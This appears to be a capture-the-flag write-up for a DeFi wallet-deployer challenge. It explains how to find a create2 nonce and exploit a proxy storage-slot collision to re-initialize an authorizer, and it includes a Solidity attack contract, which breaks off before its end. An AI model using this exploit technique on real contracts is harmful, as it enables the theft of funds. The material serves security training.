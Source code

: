 The deployer contract only works with a Safe factory and copy set during deployment. It looks like the [Safe singleton factory](https://github.com/safe-global/safe-singleton-factory) is already deployed.

The team transferred 20 million DVT tokens to a user at `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b`, where her plain 1-of-1 Safe was supposed to land. But they lost the nonce they should use for deployment.

To make matters worse, there's been rumours of a vulnerability in the system. The team's freaked out. Nobody knows what to do, let alone the user. She granted you access to her private key.

You must save all funds before it's too late!

Recover all tokens from the wallet deployer contract and send them to the corresponding ward. Also save and return all user's funds.

In a single transaction.

#### Solution Explanation:

Since the SafeProxyFactory uses the create2 opcode to deploy contracts, we have access to the necessary data for this deployment, allowing us to test different nonces until we obtain the desired contract address. After several attempts, we determined that the correct nonce is 13.

Next, we observe that the TransparentProxy contract uses the same storage slot for the upgrader as the AuthorizerUpgradeable contract does for needsInit. By calling setUpgrader on the proxy contract, the storage slot — previously set to zero during initialization — is overwritten, allowing us to reinitialize the contract and designate ourselves as the future deployer (ward).

With the user’s private key, the final step is to sign a transaction from the Safe wallet authorizing the transfer of funds to the recovery address.


<details>
  <summary> Code </summary>

  ```solidity

contract Attack {

    constructor(address walletDeployer, address token, address user, address authorizer, address player, address depositAddress, address ward){
        address[] memory wards = new address[](1);
        wards[0] = address(this);
        address[] memory aims = new address[](1);
        aims[0] = depositAddress;
        AuthorizerUpgradeable(payable(address(authorizer))).init(wards, aims);
        
        address[] memory owners = new address[](1);       
        owners[0] = user;

        bytes memory initializer = abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)", 
            owners, 
            1,
            0,
            "",  
            address(0),
            address(0),
            0,
            address(0)
        );
        uint256 nonce = 13;
        WalletDeployer(walletDeployer).drop(depositAddress, initializer, nonce);
        IERC20(token).transfer(ward, 1 ether);

    }

  ```
